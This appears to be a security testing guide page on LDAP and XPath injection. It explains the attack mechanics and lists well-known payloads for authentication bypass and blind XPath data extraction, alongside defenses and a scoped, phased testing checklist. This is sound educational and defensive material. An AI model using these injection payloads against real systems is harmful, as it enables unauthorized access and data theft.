


# LDAP / XPath Injection

Manipulate directory and XML query syntax.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">



</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

LDAP and XPath injection insert metacharacters into directory or XML queries constructed from user input—analogous to SQLi for LDAP filters and XPath expressions.

**LDAP** login filters:

```
(&(uid=USER)(password=PASS))
```

Input `*)(uid=*))(|(uid=*` can close predicates and inject OR conditions.

LDAP special characters: `*`, `(`, `)`, backslash, NUL.

**XPath** queries selecting nodes:

```xpath
//users/user[name='$name' and password='$pass']
```

Quote injection: `name' or '1'='1` bypasses authentication or extracts document content.

Blind XPath infers data by boolean queries (`substring(password,1,1)='a'`) when errors are suppressed.

## Exploitation

**LDAP auth bypass**

```
username: *
password: *
# or
username: admin)(&)
password: *
```

**LDAP enumeration**

```
(&(uid=*)(userPassword=*))  via injection in search fields
```

**XPath auth bypass**

```
' or '1'='1
' or 1=1 or '
```

**Data extraction (XPath)**

```
' or substring(//user/password,1,1)='a' or '
```

Compare true/false responses across character positions.

**Attack flow**

```
Injected metacharacters in filter/expression → query logic altered → auth bypass / attribute dump
```

**Tools**

- Burp manual payloads; ldapdomaindump after creds
- XPath injection fuzz lists from PayloadsAllTheThings

## Defense & Mitigation

**Parameterized APIs**

- LDAP: use libraries that escape filters per RFC 4515 (`ldap.filter.escape_filter_chars`).
- XPath: use parameterized XPath APIs with variable binding, not string concat.

**Input validation**

- Allow-list username charset (alphanumeric); reject `()*\`.

**Least privilege**

- LDAP bind accounts with read-only search on required attributes only.
- XML documents queried should not contain secrets in same document as public data.

**Error handling**

- No LDAP/XPath errors to client.

**Alternative**

- Prefer modern auth protocols (OIDC) over custom LDAP filter login forms.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Identify LDAP/XPath login and search features

### Phase 2 — Discovery & Mapping

- [ ] Map LDAP filters built from username fields
- [ ] Test wildcards: `*)(uid=*))(|(uid=*`
- [ ] Probe XPath in XML search and config APIs
- [ ] Review error messages for directory structure

### Phase 3 — Validation & Testing

- [ ] Bypass LDAP auth with injection payloads
- [ ] Extract attributes via blind LDAP techniques
- [ ] Validate XPath boolean injection on XML queries
- [ ] Test encoded and double-encoded variants

### Phase 4 — Exploitation & Impact Proof

- [ ] Login without valid password as proof
- [ ] Enumerate users or roles minimally
- [ ] Document directory type (AD/OpenLDAP)
- [ ] Avoid bulk directory dumps

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Use parameterized LDAP filters and bind authentication

## Tools

| Tool | Usage |
|------|-------|
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `manual payloads` | [Craft payloads from OWASP cheat sheets](../../TOOLS_GUIDE.md) |

## Resources

- [OWASP LDAP Injection](https://owasp.org/www-community/attacks/LDAP_Injection)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
